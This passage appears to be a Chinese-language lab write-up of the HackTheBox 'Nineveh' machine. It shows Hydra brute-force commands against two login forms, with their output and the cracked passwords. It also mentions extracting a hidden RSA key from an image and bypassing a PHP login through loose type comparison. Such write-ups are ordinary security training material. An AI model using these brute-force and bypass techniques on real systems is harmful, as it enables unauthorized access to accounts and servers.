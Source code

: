 ```Bash
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43  https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-05 09:06:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[STATUS] 1290.00 tries/min, 1290 tries in 00:01h, 14343109 to do in 185:19h, 16 active
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-05 09:07:32

```

根据 php/webapps/24044.txt，构造payload，但是不知道要怎么触发hack.php的路径

![](https://secure2.wostatic.cn/static/qf7sYYTrscJC2KwWZxxqTJ/image.png?auth_key=1677499539-cv4LZF8PrmqfL1oTDhbMop-0-a5ec759396baf19a9ce881d453bf8399)



#### https://10.10.10.43/server-status 

403

#### https://10.10.10.43/secure_notes

nineveh.png中存在一个rsa私钥，提取出来，需要确定用户名； 这里提取这个key可以用binwalk -e 直接得到， 不需要手动从strings里面复制粘贴。



### http

#### http://10.10.10.43/info.php

![](https://secure2.wostatic.cn/static/bREp9XCqGK2B6jrwX7Yfk/image.png?auth_key=1677499539-a1K4KKqrhHWynHiXnnVKJJ-0-c95eecf3e20a49e3a09bae200076f010)

#### http://10.10.10.43/department

- 登录解法1  - 尝试用户名密码确认admin为合法的用户名，使用hydra爆破，拿到用户名密码

```Bash
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43  http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid password"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-05 11:28:53
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid password
[STATUS] 2101.00 tries/min, 2101 tries in 00:01h, 14342298 to do in 113:47h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-05 11:31:14

```
- 登录解法2 - 这里的password判断用的弱类型比较，在post请求里面把password字段写成数组来绕过。